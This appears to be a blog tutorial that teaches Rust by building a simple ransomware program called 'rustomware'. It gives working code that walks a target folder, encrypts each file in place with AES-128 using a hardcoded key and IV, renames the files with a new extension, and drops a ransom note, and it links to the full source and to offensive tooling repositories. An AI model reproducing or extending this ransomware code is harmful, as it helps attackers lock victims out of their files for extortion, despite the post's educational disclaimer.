

## Introduction

When I first heard about Rust, my first reaction was "Why?". The language looked to me as a "wannabe" to C and I didn't understand why it is so popular. I started to read more and more about this language and began to like it. To challenge myself, I decided to write [FunctionStomping](https://github.com/idov31/FunctionStomping) in rust. Later on, I made few contributions to the amazing repository [OffensiveRust](https://github.com/trickster0/OffensiveRust) and writting nowadays a unique C2 framework written (mostly) in rust. If you are familiar with Rust, you can skip to Part 2 below. The whole code for this blog post is avaliable in my [Github](https://github.com/idov31/rustomware) :).

## Rust's capabilities

The reason that I think that Rust is awesome language is because its powerful compiler, memory safety, easy syntax and great interfacting with the OS. Rust's compiler takes care to alert for anything that can be problematic - A thing that can be annoying but in the end it helps the developer to create safer programs. In the other hand, the compiler also takes care of annoying tasks that are required when programming in C like freeing memory, closing files, etc. Rust is also a cross-platform language, so it can be used on any platform and be executed differently depending on the OS.

## Part 1 - Hello Rust

Enough talking and let's start to code! The first thing we want to do is create our program, it can be done with this simple command:

```sh
cargo new rustomware
cd rustomware
```

In the rustsomware directory, we will have these files:

``` sh
rustomware
│   .gitignore
│   Cargo.toml    
│
└───src
│   │   main.rs
│   
└───.git
    │   ...
```

In the main.rs file, we will write our code, and in Cargo.toml we will include our modules.
To build our new program, we will use the following command:

``` sh
cargo build
```

Our executable will be in the target directory (because we didn't use the release flag so it will be in debug) and will be called rustomware.exe. You'll notice that there are few new files and directories - the Cargo.lock file, and many files under the target directory. I won't elaborate about them here, in general the Cargo.lock file contains the dependecies of the project in a format that can be used by Cargo to build the project. **THERE IS NO NEED TO EDIT THOSE FILES**. In the target directory we will have the modules themselves, the executable and the PDB file. After we learned a bit about Rust, we can dive in to code our ransomware.

## Part 2 - Iterating the target folder

Like any good ransomware, we will need to have these functionalities:

- Encrypting files.
- Decrypting files.
- Dropping a README file.
- Adding our own extension to the files.

For that, we will need to use crates (modules) to help us out. First things first, we need to be able to get a list of all the files in the target directory from the argv. To do that, we can use the std library and the fs module. To use a module all we need to do is to import it:

``` rust
use std::{
    env,
    fs
};

fn main() {
    let args: Vec<_> = env::args().collect();
    
    if args.len() < 2 {
        println!("Not enough arguments! Usage: rustsomware <encrypt|decrypt> <folder>");
        return;
    }

    let entries = fs::read_dir(args[2].clone()).unwrap();

    for raw_entry in entries {
        let entry = raw_entry.unwrap();

        if entry.file_type().unwrap().is_file() {
            println!("File Name: {}", entry.path().display())
        }
    }
}
```

Now we have a program that finds files in a folder. Notice that we used the unwrap() method to get the result, it is required because Rust functions mostly send as a result a result type that can be either Ok or Err. We also needed to clone the string because it Rust need to clone objects or create a safe borrow (It is not recommended to borrow objects, but it is possible and can be useful in some cases).

## Part 3 - Encrypting / Decrypting the files

To encrypt the files, we will the [AES](https://en.wikipedia.com/wiki/Advanced_Encryption_Standard) cipher with hardcoded key and IV. All that is left for us to do is to create a function that is responsible to encrypt the file and change its extension to .rustsomware. First things first, to be able to do encryption / decryption methods we will need to have a crate to help with that. Since the libaes crate isn't a default crate, we need to import it to our project and this can be done by modifying the Cargo.toml file by adding:

```toml
[Dependencies]

libaes = "0.6.2"
```

Now, we can create a function that can encrypt and decrypt. For the sake of practice, we will use hardcoded key and IV but this is **NOT** recommended at all.

``` rust
fn encrypt_decrypt(file_name: &str, action: &str) -> bool {
    let key = b"fTjWmZq4t7w!z%C*";
    let iv = b"+MbQeThWmZq4t6w9";
    let cipher = Cipher::new_128(key);

    match action {
        "encrypt" => {
            println!("[*] Encrypting {}", file_name);
            let encrypted = cipher.cbc_encrypt(iv, &fs::read(file_name).unwrap());
            fs::write(file_name, encrypted).unwrap();
            let new_filename = format!("{}.rustsomware", file_name);
            fs::rename(file_name, new_filename).unwrap();
        }

        "decrypt" => {
            println!("[*] Decrypting {}", file_name);
            let decrypted = cipher.cbc_decrypt(iv, &fs::read(file_name).unwrap());
            fs::write(file_name, decrypted).unwrap();
            let new_filename = file_name.replace(".rustsomware", "");
            fs::rename(file_name, new_filename).unwrap();
        }

        _ => { 
            println!("[-] Invalid action!");
            return false 
        }
    }

    return true;
}
```

You can use the key and IV from above or [generate yourself](https://www.allkeysgenerator.com/Random/Security-Encryption-Key-Generator.aspx). The code above is a simple example of how to use aes128 with Rust, pretty simple right?

As you saw, Rust have a simple interface with the file system that allows to rename and do io operations easily. Because this is a simple example the function returns boolean type but it is recommended to return the error to the calling function for further handling.

## Part 4 - Adding pretty prints and README file

Just like any good ransomware we need to do a simple thing and add a README file. For the sake of learning, we will learn about including files statically to our binary. Create a readme.txt file with your ransom message in it (it is recommended to create it in a seperate directory inside your project directory but you can also put it in the src directory). To add the file, all we need to do is to use the include_str! macro (everything that ends with ! in rust is a macro) and save it to variable.

```rust
...

// Dropping the README.txt file.
let ransom_message = include_str!("../res/README.txt");
let readme_path = format!("{}/README_Rustsomware.txt", args[2].clone());
fs::write(readme_path, ransom_message).unwrap();
```

As you saw, we can just save it to file and if we want to do any change just change the README file and recompile, no code editting required.

Result:


## Conclusion

In this blog post, you got a taste from Rust's power and had fun with it by creating a simple program. I think that in the future we will see more and more infosec tools that are written in Rust. The whole code is avaliable in my [Github](https://github.com/idov31), for any question feel free to ask me on [Twitter](https://twitter.com/idov31).

## Discalimer

I'm not responsible for any damage that may occur to your computer. This article is just for eductional purposes and not inteded to be used in any other way.
